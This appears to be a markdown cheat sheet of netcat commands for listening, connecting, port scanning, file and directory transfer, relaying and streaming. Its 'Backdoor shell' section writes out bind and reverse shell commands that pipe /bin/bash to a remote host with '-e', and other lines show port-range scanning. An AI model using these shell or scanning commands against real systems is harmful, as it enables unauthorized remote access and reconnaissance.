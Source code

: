 # Listen on a port (with TCP)
- `nc -l -p 9999` listen for inbound connection on a port
  - **NOTE** some variations of `nc` requires `-p` and some don't
- `nc -k -l 9999` continue listening after disconnection (from clients)
  - this also enables multiple clients connecting at the same time

# Connect to a port on another host (with TCP)
- `nc 10.0.2.10 port` connect to remote host and port

# Use UDP rather than TCP (with is default)
* `nc -u ...`

# Timeout
* `nc -w 10` terminate connection after 10 seconds

# Verbose
- `nc -v ....`
- `nc -vv ....` very verbose

# Port scan
* `nc -z 10.0.2.10 8080` report connection status only (can be used to test port open)
  * commonly used together with `-v`
  * e.g `nc -vz 10.0.2.10 8080`
  * `-z` means zero-i/o, zero payload
* `nc -z 10.0.2.10 1000-2000` scan port range

# Backdoor shell
## shell on listener
* on listener: `nc -v -l -p 5555 -e /bin/bash`
* on client: `nc -v host1 5555`
## shell on client
- on listener: `nc -l -p 5555`
- on client: `nc -v host1 5555 -e /bin/bash`

# transfer a file
## listener as receiver
* on listener: `nc -l -p 5555 > out.file`
* on sender: `nc host1 5555 < in.file`
## listener as sender
- on listener: `nc -l -p 5555 < in.file`
- on receiver: `nc host1 5555 > out.file`
## Encrypt
- `nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt`
- `openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000`

# transfer a directory
- server `tar -cvf – dir_name | nc -l 8000`
- client `nc -n 192.168.1.9 8000 | tar -xvf -`

# Relay (Reverse Proxy)
- on listener: `nc -lvvp 5555 | nc a-remote-host 6666`
  - or `nc -lp 5555 -c "nc a-remote-host 6666"`
- on client: `nc host1 5555`

# Streaming video
- server: `cat video.avi | nc -l 8000`
- client: `nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -`

# curl
  * `printf "GET / HTTP/1.0\r\n\r\n" | nc site-hostname 80`

  * `nc -c command`
  * `nc -e command`
